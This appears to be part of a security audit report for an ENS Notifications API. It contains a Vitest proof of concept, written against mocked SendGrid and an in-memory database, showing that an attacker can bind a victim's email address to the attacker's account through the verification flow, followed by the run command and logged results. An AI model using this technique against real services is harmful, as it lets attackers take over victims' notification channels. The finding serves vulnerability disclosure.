    url.pathname === '/v3/marketing/contacts/search/emails'
  ) {
    const emails = (body as { emails?: string[] }).emails ?? []
    const result: Record<
      string,
      { contact: { id: string; email: string; list_ids: string[] } }
    > = {}
    for (const email of emails) {
      const contact = harness.contacts.get(email.toLowerCase())
      if (contact) {
        result[email.toLowerCase()] = {
          contact: {
            id: contact.id,
            email: contact.email,
            list_ids: contact.listIds,
          },
        }
      }
    }
    if (Object.keys(result).length === 0) {
      return new Response(null, { status: 404 })
    }
    return jsonResponse(200, { result })
  }

  if (method === 'DELETE' && url.pathname === '/v3/marketing/contacts') {
    const ids = url.searchParams.get('ids')?.split(',').filter(Boolean) ?? []
    for (const [email, contact] of harness.contacts) {
      if (ids.includes(contact.id)) {
        harness.contacts.delete(email)
      }
    }
    return new Response(null, { status: 202 })
  }

  throw new Error(`Unhandled SendGrid ${method} ${url.pathname}`)
}

const installSendGridFetchMock = () => {
  const fetchMock = vi.fn(
    async (input: RequestInfo | URL, init?: RequestInit) => {
      const url = asUrl(input)
      if (url.origin !== SENDGRID_ORIGIN) {
        throw new Error(`Unexpected fetch to ${url.href}`)
      }

      const method = requestMethod(input, init)
      const body = requestBody(init)
      harness.sendgridRequests.push({
        method,
        pathname: url.pathname,
        searchParams: Object.fromEntries(url.searchParams.entries()),
        body,
        authorization: headerValue(input, init, 'Authorization'),
      })
      return handleSendGridRequest(url, method, body)
    },
  )

  vi.stubGlobal('fetch', fetchMock)
  return fetchMock
}

const sendgridRequests = (
  method: string,
  pathname: string,
): (typeof harness.sendgridRequests)[number][] =>
  harness.sendgridRequests.filter(
    (request) => request.method === method && request.pathname === pathname,
  )

const mailSendRequests = () => sendgridRequests('POST', '/v3/mail/send')
const putContactRequests = () =>
  sendgridRequests('PUT', '/v3/marketing/contacts')
const searchContactRequests = () =>
  sendgridRequests('POST', '/v3/marketing/contacts/search/emails')
const deleteContactRequests = () =>
  sendgridRequests('DELETE', '/v3/marketing/contacts')

const authHeaders = (jwt?: string): Record<string, string> => ({
  'Content-Type': 'application/json',
  ...(jwt ? { Authorization: `Bearer ${jwt}` } : {}),
})

const postEmailChannel = (
  jwt: string,
  email: string,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
) =>
  requestJson(
    CREATE_PATH,
    {
      method: 'POST',
      headers: authHeaders(jwt),
      body: JSON.stringify({ email }),
    },
    env,
    executionCtx,
  )

/**
 * Same contract as Manager `verifyEmailMutationOptions`: POST `{ token }` to
 * /notifications/channels/email/verify. Auth is optional and unused by the handler.
 */
const verifyEmailChannel = (
  token: string,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
  jwt?: string,
) => {
  const body = { token }
  harness.verifyRequests.push({
    authorization: jwt ? `Bearer ${jwt}` : null,
    body,
  })
  return requestJson(
    VERIFY_PATH,
    {
      method: 'POST',
      headers: authHeaders(jwt),
      body: JSON.stringify(body),
    },
    env,
    executionCtx,
  )
}

const listChannels = (
  jwt: string,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
) =>
  requestJson(
    CHANNELS_PATH,
    {
      method: 'GET',
      headers: { Authorization: `Bearer ${jwt}` },
    },
    env,
    executionCtx,
  )

const deleteChannel = (
  jwt: string,
  channelId: string,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
) =>
  requestJson(
    `${CHANNELS_PATH}/${channelId}`,
    {
      method: 'DELETE',
      headers: { Authorization: `Bearer ${jwt}` },
    },
    env,
    executionCtx,
  )

const verificationTokenFor = (userId: string) =>
  harness.verifications.find((verification) => verification.user_id === userId)
    ?.token

const channelIdFor = (userId: string) =>
  harness.channels.find((channel) => channel.user_id === userId)?.id

const pocLog = (...args: unknown[]) => {
  if (globalThis.process?.env?.POC_LOG === '0') {
    return
  }
  console.log(...args)
}

const expectOnlySendGridFetches = () => {
  expect(
    harness.sendgridRequests.every((request) =>
      request.authorization?.startsWith('Bearer '),
    ),
  ).toBe(true)
  for (const request of harness.sendgridRequests) {
    expect(request.authorization).toBe(`Bearer ${SENDGRID_API_KEY}`)
  }
}

describe('PoC: attacker-initiated verification binds a victim email to the attacker', () => {
  beforeEach(() => {
    harness.channels.length = 0
    harness.verifications.length = 0
    harness.contacts.clear()
    harness.sendgridRequests.length = 0
    harness.verifyRequests.length = 0
    vi.clearAllMocks()
    harness.getDatabase.mockImplementation(() => createMemoryDb())
    installSendGridFetchMock()
  })

  afterEach(() => {
    vi.unstubAllGlobals()
  })

  describe('exploit', () => {
    it('binds the victim email to the attacker after an unauthenticated Manager-shaped verify', async () => {
      const env = createEnv()
      const execution = createExecutionCtx()
      const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)
      const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

      pocLog(
        '=== PHASE 1: attacker creates a pending channel for the victim email ===',
      )

      const attackerCreate = await postEmailChannel(
        attackerJwt,
        VICTIM_EMAIL_INPUT,
        env,
        execution.ctx,
      )

      expect(attackerCreate.status).toBe(200)
      const attackerCreateBody = (await attackerCreate.json()) as {
        channelId: string
        message: string
      }
      expect(attackerCreateBody).toEqual({
        message: 'Verification email sent',
        expires_at: expect.any(String),
        channelId: expect.any(String),
      })

      const attackerChannelId = attackerCreateBody.channelId
      const attackerVerification = harness.verifications.find(
        (verification) => verification.channel_id === attackerChannelId,
      )
      const verificationMail = mailSendRequests()[0]
      const verificationMailBody = verificationMail?.body as MailSendBody
      const expectedVerifyUrl = `${MANAGER_APP_URL}/notifications/channels/email/verify?token=${encodeURIComponent(
        attackerVerification?.token ?? '',
      )}`

      pocLog('attacker user id:', ATTACKER_USER_ID)
      pocLog('attacker wallet:', ATTACKER_ADDRESS)
      pocLog('attacker submitted email:', VICTIM_EMAIL_INPUT)
      pocLog('create HTTP:', attackerCreate.status, attackerCreateBody)
      pocLog('verification mail recipient:', mailRecipient(verificationMailBody))
      pocLog('verification mail subject:', verificationMailBody?.subject)
      pocLog('verification mail URL:', expectedVerifyUrl)
      pocLog(
        'mail names attacker wallet?:',
        mailText(verificationMailBody).includes(ATTACKER_ADDRESS),
      )
      pocLog(
        'mail names attacker user id?:',
        mailText(verificationMailBody).includes(ATTACKER_USER_ID),
      )

      expect(mailSendRequests()).toHaveLength(1)
      expect(putContactRequests()).toHaveLength(0)
      expect(harness.contacts.size).toBe(0)
      expect(verificationMail?.authorization).toBe(`Bearer ${SENDGRID_API_KEY}`)
      expect(mailRecipient(verificationMailBody)).toBe(VICTIM_EMAIL)
      expect(verificationMailBody?.from?.email).toBe(EMAIL_FROM_ADDRESS)
      expect(verificationMailBody?.subject).toBe(
        'Verify your email address - ENS Notifications',
      )
      expect(mailText(verificationMailBody)).toContain(expectedVerifyUrl)
      expect(mailHtml(verificationMailBody)).toContain(expectedVerifyUrl)
      expect(mailText(verificationMailBody)).toContain(
        "If you didn't request this email, you can safely ignore it",
      )
      expect(mailText(verificationMailBody)).not.toContain(ATTACKER_ADDRESS)
      expect(mailText(verificationMailBody)).not.toContain(ATTACKER_USER_ID)
      expect(mailText(verificationMailBody)).not.toContain(VICTIM_ADDRESS)
      expect(mailText(verificationMailBody)).not.toContain(VICTIM_USER_ID)

      pocLog(
        '=== PHASE 2: victim POST /email/verify { token } with no Authorization ===',
      )
      pocLog(
        'Manager client contract: verifyEmailMutationOptions posts { token } to',
        VERIFY_PATH,
      )

      const verifyResponse = await verifyEmailChannel(
        attackerVerification?.token as string,
        env,
        execution.ctx,
      )

      expect(harness.verifyRequests).toEqual([
        {
          authorization: null,
          body: { token: attackerVerification?.token },
        },
      ])
      expect(verifyResponse.status).toBe(200)
      expect(await verifyResponse.json()).toEqual({
        message: 'Email verified successfully',
      })
      await execution.flush()

      const enrollPut = putContactRequests().at(-1)
      const enrollBody = enrollPut?.body as ContactPutBody
      const welcomeMail = mailSendRequests()[1]
      const welcomeMailBody = welcomeMail?.body as MailSendBody

      pocLog(
        'verify Authorization header:',
        harness.verifyRequests[0]?.authorization,
      )
      pocLog('welcome mail recipient:', mailRecipient(welcomeMailBody))
      pocLog('welcome mail subject:', welcomeMailBody?.subject)
      pocLog(
        'add-contact PUT custom_fields.user_id:',
        enrollBody?.contacts?.[0]?.custom_fields?.user_id,
      )

      expect(mailSendRequests()).toHaveLength(2)
      expect(putContactRequests()).toHaveLength(1)
      expect(searchContactRequests()).toHaveLength(0)
      expect(mailRecipient(welcomeMailBody)).toBe(VICTIM_EMAIL)
      expect(welcomeMailBody?.subject).toBe('Welcome to ENS Notifications')
      expect(enrollPut?.authorization).toBe(`Bearer ${SENDGRID_API_KEY}`)
      expect(enrollBody).toEqual({
        list_ids: [BROADCAST_LIST_ID],
        contacts: [
          {
            email: VICTIM_EMAIL,
            custom_fields: { user_id: ATTACKER_USER_ID },
          },
        ],
      })
      expectOnlySendGridFetches()

      const attackerList = await listChannels(attackerJwt, env, execution.ctx)
      const victimList = await listChannels(victimJwt, env, execution.ctx)
      expect(attackerList.status).toBe(200)
      expect(victimList.status).toBe(200)
      expect(await attackerList.json()).toEqual([
        expect.objectContaining({
          id: attackerChannelId,
          channel: 'email',
          status: 'verified',
          label: VICTIM_EMAIL,
        }),
      ])
      expect(await victimList.json()).toEqual([])

      pocLog(
        '=== PHASE 3: victim POST /email is rejected; mailbox is on the attacker account ===',
      )

      const victimCreate = await postEmailChannel(
        victimJwt,
        VICTIM_EMAIL,
        env,
        execution.ctx,
      )
      const victimCreateBody = await victimCreate.json()

      pocLog('victim POST /email status:', victimCreate.status)
      pocLog('victim POST /email body:', victimCreateBody)
      pocLog('attacker GET /channels count: 1 (verified victim email)')
      pocLog('victim GET /channels count: 0')

      expect(victimCreate.status).toBe(400)
      expect(victimCreateBody).toEqual({
        error: 'This email address is already linked to another account',
      })

      pocLog(
        'VULNERABILITY CONFIRMED: unauthenticated Manager-shaped verify bound the victim mailbox to the attacker; victim POST /email is 400 and GET /channels is empty',
      )
    })

    it('still binds the attacker channel when /verify carries the victim JWT', async () => {
      const env = createEnv()
      const execution = createExecutionCtx()
      const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)
      const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

      const attackerCreate = await postEmailChannel(
        attackerJwt,
        VICTIM_EMAIL,
        env,
        execution.ctx,
      )
      expect(attackerCreate.status).toBe(200)

      const token = verificationTokenFor(ATTACKER_USER_ID)
      expect(token).toBeTypeOf('string')

      const verifyResponse = await verifyEmailChannel(
        token as string,
        env,
        execution.ctx,
        victimJwt,
      )
      expect(verifyResponse.status).toBe(200)
      expect(harness.verifyRequests[0]?.authorization).toBe(`Bearer ${victimJwt}`)
      await execution.flush()

      const attackerList = await listChannels(attackerJwt, env, execution.ctx)
      const victimList = await listChannels(victimJwt, env, execution.ctx)
      expect(await attackerList.json()).toEqual([
        expect.objectContaining({
          status: 'verified',
          label: VICTIM_EMAIL,
        }),
      ])
      expect(await victimList.json()).toEqual([])
      expect(putContactRequests()[0]?.body).toEqual({
        list_ids: [BROADCAST_LIST_ID],
        contacts: [
          {
            email: VICTIM_EMAIL,
            custom_fields: { user_id: ATTACKER_USER_ID },
          },
        ],
      })
    })
  })

  describe('lifecycle after bind', () => {
    it('lets the attacker list and delete the bound channel; victim can only bind after that delete', async () => {
      const env = createEnv()
      const execution = createExecutionCtx()
      const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)
      const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

      expect(
        (await postEmailChannel(attackerJwt, VICTIM_EMAIL, env, execution.ctx))
          .status,
      ).toBe(200)
      const attackerChannelId = channelIdFor(ATTACKER_USER_ID)
      expect(attackerChannelId).toBeTypeOf('string')

      expect(
        (
          await verifyEmailChannel(
            verificationTokenFor(ATTACKER_USER_ID) as string,
            env,
            execution.ctx,
          )
        ).status,
      ).toBe(200)
      await execution.flush()

      expect(
        (await postEmailChannel(victimJwt, VICTIM_EMAIL, env, execution.ctx))
          .status,
      ).toBe(400)

      const victimDelete = await deleteChannel(
        victimJwt,
        attackerChannelId as string,
        env,
        execution.ctx,
      )
      expect(victimDelete.status).toBe(404)
      expect(await victimDelete.json()).toEqual({ error: 'Channel not found' })

      const attackerDelete = await deleteChannel(
        attackerJwt,
        attackerChannelId as string,
        env,
        execution.ctx,
      )
      expect(attackerDelete.status).toBe(200)
      expect(await attackerDelete.json()).toEqual({
        message: 'Channel deleted successfully',
      })
      await execution.flush()

      expect(searchContactRequests()).toHaveLength(1)
      expect(searchContactRequests()[0]?.body).toEqual({
        emails: [VICTIM_EMAIL],
      })
      expect(deleteContactRequests()).toHaveLength(1)
      expect(deleteContactRequests()[0]?.searchParams.ids).toBeTypeOf('string')
      expectOnlySendGridFetches()

      const attackerListAfterDelete = await listChannels(
        attackerJwt,
        env,
        execution.ctx,
      )
      expect(await attackerListAfterDelete.json()).toEqual([])

      const victimCreateAfterRelease = await postEmailChannel(
        victimJwt,
        VICTIM_EMAIL,
        env,
        execution.ctx,
      )
      expect(victimCreateAfterRelease.status).toBe(200)
      expect(await victimCreateAfterRelease.json()).toEqual({
        message: 'Verification email sent',
        expires_at: expect.any(String),
        channelId: expect.any(String),
      })
    })
  })

  describe('verify uniqueness gap', () => {
    it('lets both accounts become verified when each consumes their own pending token', async () => {
      const env = createEnv()
      const execution = createExecutionCtx()
      const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)
      const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

      expect(
        (
          await postEmailChannel(
            attackerJwt,
            VICTIM_EMAIL_INPUT,
            env,
            execution.ctx,
          )
        ).status,
      ).toBe(200)
      expect(
        (await postEmailChannel(victimJwt, VICTIM_EMAIL, env, execution.ctx))
          .status,
      ).toBe(200)

      const attackerToken = verificationTokenFor(ATTACKER_USER_ID)
      const victimToken = verificationTokenFor(VICTIM_USER_ID)
      expect(attackerToken).toBeTypeOf('string')
      expect(victimToken).toBeTypeOf('string')
      expect(attackerToken).not.toBe(victimToken)

      expect(
        (
          await verifyEmailChannel(
            attackerToken as string,
            env,
            execution.ctx,
          )
        ).status,
      ).toBe(200)
      await execution.flush()

      expect(
        (await postEmailChannel(victimJwt, VICTIM_EMAIL, env, execution.ctx))
          .status,
      ).toBe(400)

      expect(
        (await verifyEmailChannel(victimToken as string, env, execution.ctx))
          .status,
      ).toBe(200)
      await execution.flush()

      const attackerList = await listChannels(attackerJwt, env, execution.ctx)
      const victimList = await listChannels(victimJwt, env, execution.ctx)
      expect(await attackerList.json()).toEqual([
        expect.objectContaining({
          channel: 'email',
          status: 'verified',
          label: VICTIM_EMAIL,
        }),
      ])
      expect(await victimList.json()).toEqual([
        expect.objectContaining({
          channel: 'email',
          status: 'verified',
          label: VICTIM_EMAIL,
        }),
      ])
    })
  })

  describe('bounds', () => {
    it('rejects a late attacker create after the victim has already verified', async () => {
      const env = createEnv()
      const execution = createExecutionCtx()
      const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)
      const victimJwt = await signUserJwt(VICTIM_USER_ID, VICTIM_ADDRESS)

      expect(
        (await postEmailChannel(victimJwt, VICTIM_EMAIL, env, execution.ctx))
          .status,
      ).toBe(200)
      expect(
        (
          await verifyEmailChannel(
            verificationTokenFor(VICTIM_USER_ID) as string,
            env,
            execution.ctx,
          )
        ).status,
      ).toBe(200)
      await execution.flush()

      const attackerCreate = await postEmailChannel(
        attackerJwt,
        VICTIM_EMAIL_INPUT,
        env,
        execution.ctx,
      )
      expect(attackerCreate.status).toBe(400)
      expect(await attackerCreate.json()).toEqual({
        error: 'This email address is already linked to another account',
      })
      const attackerList = await listChannels(attackerJwt, env, execution.ctx)
      const victimList = await listChannels(victimJwt, env, execution.ctx)
      expect(await attackerList.json()).toEqual([])
      expect(await victimList.json()).toEqual([
        expect.objectContaining({
          status: 'verified',
          label: VICTIM_EMAIL,
        }),
      ])
    })

    it('rate-limits a fourth verification send to the same address', async () => {
      const env = createEnv()
      const execution = createExecutionCtx()
      const attackerJwt = await signUserJwt(ATTACKER_USER_ID, ATTACKER_ADDRESS)

      for (let send = 0; send < 3; send += 1) {
        const response = await postEmailChannel(
          attackerJwt,
          VICTIM_EMAIL,
          env,
          execution.ctx,
        )
        expect(response.status).toBe(200)
      }

      expect(mailSendRequests()).toHaveLength(3)

      const blocked = await postEmailChannel(
        attackerJwt,
        VICTIM_EMAIL,
        env,
        execution.ctx,
      )
      const blockedBody = await blocked.json()

      expect(blocked.status).toBe(429)
      expect(blockedBody).toEqual({
        error: expect.stringMatching(/^Too many verification emails sent/),
      })
      expect((blockedBody as { error: string }).error).toBe(
        formatEmailVerificationRateLimitError(60 * 60),
      )
      expect(mailSendRequests()).toHaveLength(3)
    })
  })
})

```

### Run

The api-worker Vitest config uses the Cloudflare workers pool. The command below runs the PoC from `workers/api-worker`. Phase logs can be silenced with `POC_LOG=0`.

```bash
pnpm exec vitest run test/attacker-initiated-email-verification-binds-victim.test.ts --reporter=verbose --disable-console-intercept
```

### Test Results

```bash
RUN  v4.1.5 /home/konvati/20md/audit/8-2026/audit-comp-ens/workers/api-worker

=== PHASE 1: attacker creates a pending channel for the victim email ===
attacker user id: 11111111-1111-4111-8111-111111111111
attacker wallet: 0xa11ce00000000000000000000000000000000000
attacker submitted email: Victim@Example.COM
create HTTP: 200 {
  message: 'Verification email sent',
  expires_at: '2026-09-15T02:07:05.139Z',
  channelId: '70e75142-358f-476f-bed3-a948c1668bcd'
}
verification mail recipient: victim@example.com
verification mail subject: Verify your email address - ENS Notifications
verification mail URL: https://app.ens.dev/notifications/channels/email/verify?token=a7bb62188d2485767b92a2f3b6da6d61
mail names attacker wallet?: false
mail names attacker user id?: false
=== PHASE 2: victim POST /email/verify { token } with no Authorization ===
Manager client contract: verifyEmailMutationOptions posts { token } to /notifications/channels/email/verify
verify Authorization header: null
welcome mail recipient: victim@example.com
welcome mail subject: Welcome to ENS Notifications
add-contact PUT custom_fields.user_id: 11111111-1111-4111-8111-111111111111
=== PHASE 3: victim POST /email is rejected; mailbox is on the attacker account ===
victim POST /email status: 400
victim POST /email body: { error: 'This email address is already linked to another account' }
attacker GET /channels count: 1 (verified victim email)
victim GET /channels count: 0
VULNERABILITY CONFIRMED: unauthenticated Manager-shaped verify bound the victim mailbox to the attacker; victim POST /email is 400 and GET /channels is empty
 ✓ ... binds the victim email to the attacker after an unauthenticated Manager-shaped verify
 ✓ ... still binds the attacker channel when /verify carries the victim JWT
 ✓ ... lets the attacker list and delete the bound channel; victim can only bind after that delete
 ✓ ... lets both accounts become verified when each consumes their own pending token
 ✓ ... rejects a late attacker create after the victim has already verified
 ✓ ... rate-limits a fourth verification send to the same address

 Test Files  1 passed (1)
      Tests  6 passed (6)
```

### Test Results Explanation

The main exploit hits the real create/verify handlers and the production mail/contacts clients. After the attacker POSTs `Victim@Example.COM`, SendGrid mail goes to `victim@example.com` with the official Manager verify URL and no attacker identity. The same `{ token }` POST Manager `verifyEmailMutationOptions` issues (no `Authorization`) returns `200`. Attacker `GET /channels` then lists that address as `verified`; victim `GET /channels` is `[]`. Victim `POST /email` is `400 already linked to another account`. The contacts PUT carries `custom_fields.user_id` = attacker.
